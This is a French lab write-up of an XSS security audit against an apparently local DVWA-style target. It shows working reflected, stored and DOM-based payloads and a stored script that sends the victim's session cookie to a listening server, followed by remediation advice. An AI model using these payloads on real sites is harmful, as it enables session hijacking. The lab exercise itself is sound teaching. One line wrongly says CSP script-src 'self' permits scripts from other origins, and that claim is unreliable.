




# Audit de sécurité - Plateforme Code un max

### Découvrir et exploiter une faille XSS réfléchie, stored et dom-based

---

## 1. Récupération du token CSRF et le cookie de session
```bash
docker exec attaquant sh -c "curl -s -c/tmp/ck http://10.40.0.10/login.php | grep -oE '[a-f0-9]{32}' | head -1 | xargs -I TKN curl -s -b/tmp/ck -c/tmp/ck --data username=admin --data password=password --data user_token=TKN --data Login=Login http://10.40.0.10/login.php -o /dev/null -w '%{http_code}\n'"
```

Résultat : `302` | Connexion réussie vers `index.php`

## 2. Régler le niveau de sécurité sur low
```bash
docker exec attaquant sh -c "echo '10.40.0.10\tFALSE\t \tFALSE\t\tsecurity\tlow' >> /tmp/ck"
```

### 2.1 Vérifier la présence du cookie dans `/tmp/ck`
```bash
docker exec attaquant grep security /tmp/ck
```



## 3. Injecter une charge XSS réfléchie
Principe : Une XSS réfléchie se produit lorsque la donnée saisie par l'utilisateur est immédiatement renvoyée par le serveur dans la réponse HTTP sans aucun filtre.

```bash
docker exec attaquant curl -s -b/tmp/ck "http://10.40.0.10/vulnerabilities/xss_r/?name=<script>alert(1)</script>" | grep script
```



Résultat : présence de `<script>alert(1)</script>`

## 4. Injection XSS Stockée (Stored XSS)
Principe : Une XSS stockée survient lorsque la charge malveillante est enregistrée durablement sur le serveur (en base de données) et s'exécute automatiquement pour chaque visiteur de la page.

```bash
docker exec attaquant curl -s -b/tmp/ck --data "txtName=Hacker&mtxMessage=<script>alert(2)</script>&btnSign=Sign" http://10.40.0.10/vulnerabilities/xss_s/
```

## 4.1 Vérifier que la charge est bien enregistrée
```bash
docker exec attaquant curl -s -b/tmp/ck http://10.40.0.10/vulnerabilities/xss_s/ | grep -C 2 alert
```



Résultat : présence de `<script>alert(2)</script>`

## 5. XSS DOM-based
Principe : Une XSS DOM-based n'implique pas le serveur (réponse statique) ; c'est le code JavaScript exécuté par le navigateur qui lit une source non sécurisée et modifie directement le DOM.

```bash
docker exec attaquant curl -s -b/tmp/ck "http://10.40.0.10/vulnerabilities/xss_d/?default=<script>alert(3)</script>" | grep -i alert
```

## 6. Démontrer le vol de cookie de session
#### 6.1 Lancer un serveur d'écoute
```bash
docker exec -d attaquant sh -c "python3 -m http.server 8080 > /tmp/server.log 2>&1"
```

#### 6.2 Injecter la charge (stored xss)
```bash
docker exec attaquant curl -s -b/tmp/ck --data-urlencode "txtName=Hacker" --data-urlencode "mtxMessage=<script>new Image().src='http://10.40.0.20:8080/steal?cookie='+encodeURIComponent(document.cookie);</script>" --data "btnSign=Sign" http://10.40.0.10/vulnerabilities/xss_s/
```

#### 6.3 Visualisation dans les logs du serveur
```bash
docker exec attaquant cat /tmp/server.log
```


Résultat : `10.40.0.1 - - [29/Oct/2026 09:50:18] "GET /steal?cookie=PHPSESSID%3D6h4ivl8q98603bo0ao9ah4q524%3B%20security%3Dlow HTTP/1.1" 404 -`

## 7. Bilan de l'audit (XSS)

### 1. Explications des failles 

* **XSS Réfléchie** : Le paramètre `name` renvoie directement ce qu'on tape sans aucun filtre dans la page.

* **XSS Stockée** : Le livre d'or enregistre le script en base, et il s'exécute à chaque fois qu'un utilisateur arrive sur la page.

* **XSS DOM-based** : Le serveur ne voit rien, c'est le JavaScript du navigateur qui interprète mal l'URL et modifie la page tout seul.

### 2. Le vol de session

En l'absence de l'attribut `HttpOnly` sur le cookie de session (`PHPSESSID`), le script malveillant peut lire la propriété sensible `document.cookie`. L'exfiltration vers le serveur d'écoute valide le scénario d'usurpation de compte (Hijacking) sans nécessiter le mot de passe de la victime.

### 3. Mesures de remédiations

* **Échappement des sorties selon le contexte** : Encoder et nettoyer systématiquement toutes les données fournies par l'utilisateur avant de les afficher (contexte HTML, attributs, ou JavaScript).

* **Encodage HTML** : Convertir les caractères spéciaux (`<`, `>`, `&`, etc.) en entités HTML inoffensives.

* **Attribut** `HttpOnly` : Configurer les cookies de session avec `HttpOnly` (et `Secure`) pour interdire strictement leur lecture par du code JavaScript.

* **Content Security Policy (CSP)** : Déployer une politique de sécurité de contenu rigoureuse pour limiter la surface d'attaque.

### 4. Le rôle d'une CSP (script-src 'self')

Si on ajoute une CSP du style script-src 'self', ça change la donne :

* **Blocage du code inline** : Les balises <script> injectées directement dans le texte sont automatiquement bloquées par le navigateur.

* **Sécurité stricte** : Permet d'exécuter des scripts qui ne viennent pas directement du serveur d'origine.

En résumé : Même si la CSP est très bien pour limiter la casse, il ne faut pas oublier que l'échappement des sorties reste le premier réflexe de sécurité à avoir.
